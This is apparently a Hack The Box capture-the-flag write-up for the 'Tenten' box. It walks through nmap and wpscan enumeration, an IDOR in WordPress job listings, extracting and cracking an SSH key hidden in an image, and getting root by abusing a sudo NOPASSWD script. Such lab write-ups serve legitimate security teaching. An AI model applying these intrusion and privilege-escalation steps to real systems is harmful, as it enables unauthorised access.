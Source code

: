 # HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------

![Tenten.png](../assets/tenten_assets/Tenten.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.

![takis.png](../assets/tenten_assets/takis.png)

Lets head back to the site to see what we can find.

![site.png](../assets/tenten_assets/site.png)

Clicking on the Job Listings link we see a job posting we can apply for:

![job.png](../assets/tenten_assets/job.png)

Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 

![8.png](../assets/tenten_assets/8.png)

Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuff), until I reached `/13` which had an interesting attachment:

![13.png](../assets/tenten_assets/13.png)

We can fill out the appplication with test data and submit:

![hey.png](../assets/tenten_assets/hey.png)

Now that the aplication is submitted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:

![hacker.png](../assets/tenten_assets/hacker.png)

Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:

![john.png](../assets/tenten_assets/john.png)

Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

And grab the user.txt flag:

![user_flag.png](../assets/tenten_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:

![linux.png](../assets/tenten_assets/linux.png)

Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:

![root_flag.png](../assets/tenten_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
